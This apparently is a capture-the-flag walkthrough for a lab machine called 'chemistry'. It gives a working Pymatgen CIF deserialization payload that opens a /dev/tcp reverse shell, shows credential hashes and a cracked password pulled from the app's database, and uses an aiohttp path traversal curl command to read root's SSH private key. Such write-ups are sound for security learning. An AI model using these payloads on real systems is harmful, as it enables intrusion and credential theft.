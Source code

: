 1,Recon
port scan:
	22/tcp ssh
	5000/tcp upnp `Server: Werkzeug/3.0.3 Python/3.9.5`
We can register into the account and we find a upload page for us.
![](images/Pasted%20image%2020241025070857.png)

And we have known the uploaded file is a cif file, and the server is powered by python, then we can search them and find some interesting vunlers.

`CVE-2024-23346: Arbitrary Code Execution in Pymatgen via Insecure Deserialization`
`https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0`

It seems be a RCE for us to exploit it.
And the page of github has given us the poc to check this vulner
`https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f`

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Then we can make our own payload to handle a reverse shell 
```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c '/bin/sh -i >& /dev/tcp/10.10.16.17/443 0>&1'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

Then we get the shell as app.

From the home of user app, we can find the credit from app.py
```
app = Flask(__name__)
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['UPLOAD_FOLDER'] = 'uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'cif'}

db = SQLAlchemy(app)
login_manager = LoginManager(app)
login_manager.login_view = 'login
```

And we can find another user `rosa:x:1000:1000:rosa:/home/rosa:/bin/bash`
Maybe we can use this secret_key to switch to her account.But very sad, we can not directly switch.

There is database.db from /instance and maybe we can crack it.
```
sqlite3 database.db

select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5

```
Then we can get the valid credit `rosa:unicorniosrosados` and we can use ssh to login the shell of rosa.

2,shell as root
Firstly we would want to check the `sudo -l`
```
sudo -l
[sudo] password for rosa: 
Sorry, user rosa may not run sudo on chemistry.
```

Continue to check the `netstat` to ensure is there any service in the other ports.

```
netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```

Port 8080 seems like a way to root, so let's forward port to our local machine and check is there anything useful for us.

![](images/Pasted%20image%2020241025074331.png)

Firstly we did not what this service is and how powered.
So i would check the process of target machine.
```
ps -aux | grep "python"
root         872  0.0  0.9  29648 18420 ?        Ss   02:21   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
app         1070 26.7  6.2 1298208 123880 ?      Ssl  02:21 151:10 /usr/bin/python3.9 /home/app/app.py
root        1071  0.0  1.4 257652 28828 ?        Ssl  02:21   0:00 /usr/bin/python3.9 /opt/monitoring_site/app.py
app       543550  0.0  0.4  15720  9532 ?        S    02:57   0:00 python3 -c import pty; pty.spawn("/bin/bash")
rosa     3352233  0.0  0.0   6432   720 pts/1    S+   11:45   0:00 grep --color=auto python

```

And use `whatweb` to check the service of this page.
```
whatweb http://127.0.0.1:8080                                          
http://127.0.0.1:8080 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], IP[127.0.0.1], JQuery[3.6.0], Script, Title[Site Monitoring]
```

`3.9 aiohttp/3.9.1` seems to be our target and let's check this package.
`Proof-of-Concept for LFI/Path Traversal vulnerability in Aiohttp =< 3.9.1`
`https://github.com/z3rObyte/CVE-2024-23334-PoC.git`

We can use ffuf to find the valid file path 
```
ffuf -u http://localhost:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt

                        [Status: 200, Size: 5971, Words: 2391, Lines: 153, Duration: 66ms]
assets                  [Status: 403, Size: 14, Words: 2, Lines: 1, Duration: 17ms]
```

The payload would be 
`curl -s --path-as-is http://localhost:8080/assets/../../../root/.ssh/id_rsa`

And we can get the id_rsa of root.
